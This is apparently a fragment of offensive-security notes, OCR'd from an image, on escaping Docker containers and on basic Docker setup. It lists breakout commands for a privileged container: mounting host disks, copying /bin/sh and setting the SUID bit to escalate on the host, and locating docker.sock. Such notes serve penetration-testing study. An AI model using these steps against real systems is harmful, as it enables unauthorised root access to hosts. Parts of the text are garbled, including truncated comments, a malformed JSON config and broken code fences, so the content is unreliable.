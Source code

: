 
Check for mount misconfigurations. It is a misconfiguration if Docker container is running `--privileged`, meaning we are can mount to these disks as container does not need disks 
```bash
# check if disks are mountable into the host filesystem 
fdisk -l # Is a better way as disks can named by the users...

mount /dev/$sdaX /mnt

# If you are not root or another mn

cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.

# Mounted Socket Escape
# Search the socket
find / -name docker.sock 2>/dev/null
# It's usually in /run/docker.sock

```

[Deepce](https://github.com/stealthcopter/deepce.git) is like PEAS-NG for Docker

Docker has a socket [[Network-Protocols]] on 5000 so that another host can send commands to it, not default, but possible.

## Preface

Add IP and domain name to /etc/hosts
```bash
echo "$IP $DOMAIN" | tee -a /etc/hosts
```

Configure Docker to trust your instance, either make `/etc/docker/daemon.json` or enter:
```json
{
	 "target-id" : ["docker-domain.name:$DOCKERPORTLOW","docker-domain.name:$DOCKERPORTHIGH"]
}
```

Control Docker(Linux)
```bash
systemctl stop docker
systemctl start docker
```

Docker Commands
```bash
RUN echo "Docker"
COPY 
````
For full list see [Commands](https://docs.docker.com/engine/reference/commandline/cli/)

## Docker Enumeration
